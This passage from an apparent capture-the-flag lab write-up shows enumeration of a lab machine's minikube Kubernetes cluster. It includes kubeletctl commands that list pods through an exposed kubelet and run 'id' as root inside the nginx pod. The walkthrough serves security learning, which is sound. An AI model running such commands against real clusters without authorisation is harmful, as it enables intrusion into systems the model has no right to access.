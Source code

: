 ![](minikube_default_port.jpg)

Based on this diagram and port info from documentation, 
on port 8443 is api server in minikube.

Trying go access it with kubectl tool did not yield promising results:

```sh
> kubectl --server https://10.10.11.133:8443 get pod
Please enter Username: ^C
> kubectl --server https://10.10.11.133:8443 get namespaces
Please enter Username: ^C
> kubectl --server https://10.10.11.133:8443 cluster-info
Please enter Username: ^C
```

Instead, we will use another tool, kubeletct, to try to access 
kubelets on the server:

```sh
> kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'
["kube-proxy-86tm7","kube-system"]
["storage-provisioner","kube-system"]
["kube-controller-manager-steamcloud","kube-system"]
["kube-scheduler-steamcloud","kube-system"]
["kube-apiserver-steamcloud","kube-system"]
["etcd-steamcloud","kube-system"]
["nginx","default"]
["coredns-78fcd69978-wpcxr","kube-system"]
```

# Root nginx shell

Based on previous attempts with kubectl, we can assume that pods in 
kube-system namespace won't be accessible to just anyone.
There is only one pod that is in different, "default" group. 
We will try to execute command on it:

```sh
> kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
uid=0(root) gid=0(root) groups=0(root)
```
